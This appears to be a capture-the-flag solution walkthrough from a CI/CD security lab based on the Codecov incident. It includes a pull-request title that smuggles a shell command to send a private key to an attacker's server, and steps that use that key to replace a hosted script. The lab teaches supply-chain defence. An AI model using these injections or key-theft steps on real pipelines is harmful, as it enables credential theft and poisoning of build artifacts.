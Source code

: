 [![CICD-SEC-8 Ungoverned Usage of 3rd Party Services](https://img.shields.io/badge/CICD--SEC--8-Ungoverned%20Usage%20of%203rd%20Party%20Services-brightgreen)](https://owasp.org/www-project-top-10-ci-cd-security-risks/CICD-SEC-08-Ungoverned-Usage-of-3rd-Party-Services)

[![CICD-SEC-9 Improper Artifact Integrity Validation](https://img.shields.io/badge/CICD--SEC--9-Improper%20Artifact%20Integrity%20Validation-brightgreen)](https://owasp.org/www-project-top-10-ci-cd-security-risks/CICD-SEC-09-Improper-Artifact-Integrity-Validation)

This challenge draws inspiration from the [Codecov incident](https://about.codecov.io/security-update/), in which a 3rd party artifact included in the pipeline is hijacked.

Codecov has a script used in customers’ CI pipelines. The script was hosted separately from its open-sourced code. The script was modified directly where it’s stored (without changing the source code) with malicious code that stole credentials from pipeline jobs.

Pipelines that would have validated the script’s hash against the repository code, would have prevented a successful attack.

In the challenge, Reportcov is a public repository of a 3rd party used by other CI pipelines. It has its own pipeline (which you can’t view), creating an artifact stored remotely. You can execute command injection in the pipeline in order to run malicious code in the job, steal the private key of the server hosting the artifact, and then modify it to exfiltrate credentials from CI pipelines that use the artifact.



1. Fork the _Cov/reportcov_ repository and create an arbitrary change.
2. Create a pull request with the following command as its title:

    ```shell
    `echo "${KEY}" > key && curl -v -F file=@key <YOUR SERVER>`
    ```
    The injection is possible since the following line treats the title as a bash variable and as such it can evaluate command substitution inside.
    
    `sh "echo Pull Request ${title} created in the reportcov repository"`

    GitHub published an [interesting article](https://securitylab.github.com/research/github-actions-preventing-pwn-requests/) about command injection in CI pipelines.

3. Use the private key to upload a malicious _reportcov.sh_ script: 

    ```shell
    echo "${FLAG}" | base64 > reportcov.sh
    chmod 400 key
    scp -P 2222 -i key reportcov.sh root@localhost:/var/www/localhost/htdocs
    ```


4. Run the dormouse pipeline.
5. Access the console output of the executed job to get the secret.
